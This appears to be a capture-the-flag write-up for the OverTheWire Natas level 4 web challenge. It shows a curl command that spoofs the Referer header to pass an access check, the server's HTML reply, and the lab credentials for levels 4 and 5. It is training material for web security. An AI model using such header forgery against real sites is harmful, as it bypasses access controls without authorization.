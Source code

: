 # Natas4

#### URL: http://natas4.natas.labs.overthewire.org
#### Credenciales: natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

![2025-03-19-174342_654x62_scrot](https://github.com/user-attachments/assets/182c4b7f-4e83-468c-81ec-d4247dea43a3)

``` bash
curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ http://natas4.natas.labs.overthewire.org/ -H "Referer: http://natas5.natas.labs.overthewire.org/"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

`natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK`


`
